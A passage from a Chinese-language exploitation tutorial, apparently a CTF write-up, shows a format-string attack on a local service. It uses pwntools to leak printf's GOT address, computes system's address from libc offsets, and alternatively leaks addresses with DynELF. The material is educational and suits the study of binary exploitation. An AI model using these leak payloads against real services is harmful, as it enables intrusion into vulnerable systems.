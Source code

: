 ### printf address & system address

接下来通过 printf@got 泄露出 printf 的地址，进行到这儿，就有两种方式要考虑了，即我们是否可以拿到 libc，如果能，就很简单了。如果不能，就需要使用 DynELF 进行无 libc 的利用。

先说第一种：

```python
def get_printf_addr():
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(printf_got)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:4]
    log.info("printf address: %s" % data.encode('hex'))
    return data
printf_addr = get_printf_addr()
```

```text
[*] printf address: 70e6e0f7
```

所以 printf 的地址是 `0xf7e0e670`（小端序），使用 libc-database 查询得到 libc.so，然后可以得到 printf 和 system 的相对位置。

```text
$ ./find printf 670
ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)
/usr/lib32/libc-2.26.so (id local-292a64d65098446389a47cdacdf5781255a95098)
$ ./dump local-292a64d65098446389a47cdacdf5781255a95098 printf system
offset_printf = 0x00051670
offset_system = 0x0003cc50
```

然后计算得到 printf 的地址：

```python
printf_addr = 0xf7e0e670
offset_printf = 0x00051670
offset_system = 0x0003cc50
system_addr = printf_addr - (offset_printf - offset_system)
```

第二种方法是使用 DynELF 模块来泄露函数地址：

```python
def leak(addr):
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(addr)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:-4] + "\x00"
    log.info("leaking: 0x%x --> %s" % (addr, data.encode('hex')))
    p.close()
    return data
data = DynELF(leak, 0x08048490)     # Entry point address
system_addr = data.lookup('system', 'libc')
printf_addr = data.lookup('printf', 'libc')
log.info("system address: 0x%x" % system_addr)
log.info("printf address: 0x%x" % printf_addr)
```
